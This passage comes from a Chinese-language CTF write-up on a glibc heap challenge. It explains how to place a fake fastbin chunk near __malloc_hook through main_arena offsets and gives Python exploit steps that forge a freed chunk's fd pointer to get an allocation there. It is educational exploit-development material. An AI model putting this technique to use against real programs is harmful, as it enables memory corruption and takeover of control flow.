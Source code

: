    经过调试可得fake_chunk的size地址应为`0x7f7c95dceaf0 + 0x5` ，即fake_chunk的地址应为`main_arena - 0x2b - 0x8`(因为每次地址随机，所以采用相对寻址)

   > 根据chunk的size计算其在fastbin数组中index的宏如下所示：
   >
   > ```c
   > #define fastbin_index(sz) ((((unsigned int) (sz)) >> (SIZE_SZ == 8 ? 4 : 3)) - 2)
   > ```
   >
   > 那么，64位程序：0x7f/16-2=5。所以0x7f对应的fastbin单链表要求的size为0x70，user data部分的size为0x60。

   先构造实现fake_chunk的条件，创造一个fastbin并改写他的fd值使其指向fake_chunk

   ```python
   allocate(0x60)
   free(4)
   ```

   ![0x8](/img/image-20220724004836041.png)

   通过上图可以分析得: 原本被free掉的small_chunk被分割成了两个部分，前半部分为0x70(fast_bin)，后半部分为0x20(unsorted_bin)。因此方才指向chunk4 content的指针还可以使用，直接通过Fill chunk2填充被分割而得来的新fastbin的fd，使其指向fake_chunk地址。紧接着alloc两个chunk，第一个获得改写过fd的chunk4，第二个获取`__malloc_hook`附近的chunk

   ```python
   fake_chunk_addr = main_arena - 0x2b - 0x8
   fake_chunk = p64(fake_chunk_addr)
   fill(2, len(fake_chunk), fake_chunk)
   alloc(0x60)
   #gdb() 具体情况如下图所示
   alloc(0x60)#在此处gdb发现被alloc的chunk并不能在parseheap中显示
   ```
